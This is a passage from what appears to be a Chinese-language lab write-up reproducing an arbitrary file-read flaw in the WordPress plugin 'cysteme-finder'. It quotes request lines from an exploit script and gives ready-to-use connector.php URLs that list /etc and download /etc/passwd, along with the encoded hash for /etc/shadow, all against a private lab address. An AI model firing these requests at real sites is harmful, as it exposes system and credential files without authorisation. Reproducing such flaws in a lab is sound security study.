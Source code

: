 ![image-20241105165703570](https://image.201068.xyz/assets/11.Wordpress/image-20241105165703570.png)

![image-20241105165536342](https://image.201068.xyz/assets/11.Wordpress/image-20241105165536342.png)

#### 分析exp代码

根据exp代码，找到请求地址。

![image-20241105165754468](https://image.201068.xyz/assets/11.Wordpress/image-20241105165754468.png)

```bash
conn.request("GET", "/wp-content/plugins/cysteme-finder/php/connector.php?wphome=" + path + "&cmd=open&init=1&tree=1")
```

![image-20241105165825410](https://image.201068.xyz/assets/11.Wordpress/image-20241105165825410.png)

```bash
conn.request("GET", "/wp-content/plugins/cysteme-finder/php/connector.php?wphome=" + path + "&cmd=file&target=" + hashstr + "&download=1")
```

#### 泄露信息地址

http://192.168.70.4:6082/wp-content/plugins/cysteme-finder/php/connector.php?wphome=/etc&cmd=open&init=1&tree=1

![image-20241105152905626](https://image.201068.xyz/assets/11.Wordpress/image-20241105152905626.png)

#### 获取hash值

根据泄露信息获取信息列表下hash值。

![image-20241105153230058](https://image.201068.xyz/assets/11.Wordpress/image-20241105153230058.png)

> /etc/passwd：l1_cGFzc3dk

![image-20241105153055783](https://image.201068.xyz/assets/11.Wordpress/image-20241105153055783.png)

> /etc/shadow：l1_c2hhZG93

#### 查看文件

根据泄露信息获取信息列表下hash值。

##### 格式

```bash
http://192.168.70.4:6082/wp-content/plugins/cysteme-finder/php/connector.php?wphome=目录&&cmd=file&target=文件hash值
&download=0
```

##### /etc/passwd

```bash
http://192.168.70.4:6082/wp-content/plugins/cysteme-finder/php/connector.php?wphome=/etc&&cmd=file&target=l1_cGFzc3dk
&download=0
```
